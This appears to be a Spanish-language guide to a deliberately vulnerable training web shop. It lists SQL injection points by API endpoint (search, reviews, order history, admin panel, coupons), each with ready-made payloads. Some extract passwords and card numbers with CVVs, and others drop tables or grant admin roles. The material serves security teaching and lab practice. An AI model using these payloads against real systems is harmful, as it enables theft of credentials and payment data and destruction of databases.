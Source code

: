 ```yaml
---
layout: default
title: SQL Injection
nav_order: 3
parent: Vulnerabilidades
---
```


# SQL Injection

## 3.1 Búsqueda y Filtros de Productos
- **Ubicación**: `/api/v1/products/search` y `/api/v1/products/filter`
- **Descripción**: Parámetros de búsqueda y filtros vulnerables a SQLi
- **Pasos**:
  1. Usar búsqueda de productos o filtros
  2. Inyectar payload SQL en parámetros
- **Payloads de ejemplo**:
  ```sql
  ' OR '1'='1
  ' UNION SELECT id,email,password,NULL,NULL FROM users--
  ' ORDER BY 10--
  category=' UNION SELECT id,email,password,NULL FROM users--
  price_max=' OR price > 1000 OR '1'='1
  ```
- **Criterio de éxito**: Obtener información de usuarios o manipular consulta
- **Impacto**: Acceso no autorizado a datos, bypass de filtros

## 3.2 Sistema de Reseñas
- **Ubicación**: `/api/v1/products/{id}/reviews`
- **Descripción**: Gestión de reseñas vulnerable a SQLi
- **Pasos**:
  1. Acceder a reseñas de producto
  2. Manipular parámetros de ordenamiento/filtrado
- **Payloads de ejemplo**:
  ```sql
  rating=' UNION SELECT password,email,username,NULL FROM users--
  order=' OR updatexml(1,concat(0x7e,(SELECT password FROM users LIMIT 1)),1)--
  ```
- **Criterio de éxito**: Extraer datos sensibles vía error-based SQLi
- **Impacto**: Fuga de información sensible

## 3.3 Historial de Pedidos
- **Ubicación**: `/api/v1/orders/history`
- **Descripción**: Consulta de pedidos vulnerable
- **Pasos**:
  1. Acceder al historial de pedidos
  2. Manipular parámetros de búsqueda/filtrado
- **Payloads de ejemplo**:
  ```sql
  order_id=' UNION SELECT card_number,expiry,cvv,NULL FROM payment_methods--
  date_from=' OR '1'='1' GROUP BY credit_card--
  ```
- **Criterio de éxito**: Acceder a información de pagos de otros usuarios
- **Impacto**: Robo de datos de tarjetas de crédito

## 3.4 Panel de Administración
- **Ubicación**: `/api/v1/admin/users` y `/api/v1/admin/orders`
- **Descripción**: Filtros y gestión administrativa vulnerable
- **Pasos**:
  1. Acceder como admin
  2. Usar filtros o búsqueda de usuarios/pedidos
- **Payloads de ejemplo**:
  ```sql
  '; DROP TABLE users--
  '; UPDATE users SET role='admin'--
  '; INSERT INTO payment_methods SELECT * FROM payment_methods--
  ```
- **Criterio de éxito**: Modificar datos o estructura de BD
- **Impacto**: Manipulación de base de datos, escalada de privilegios

## 3.5 Sistema de Cupones
- **Ubicación**: `/api/v1/coupons/validate`
- **Descripción**: Validación de cupones vulnerable
- **Pasos**:
  1. Intentar aplicar cupón
  2. Inyectar payload en código de cupón
- **Payloads de ejemplo**:
  ```sql
  ' OR discount_percent=100--
  ' UNION SELECT 100,'2025-12-31',NULL--
  ```
- **Criterio de éxito**: Bypass de validación de cupones
- **Impacto**: Manipulación de descuentos
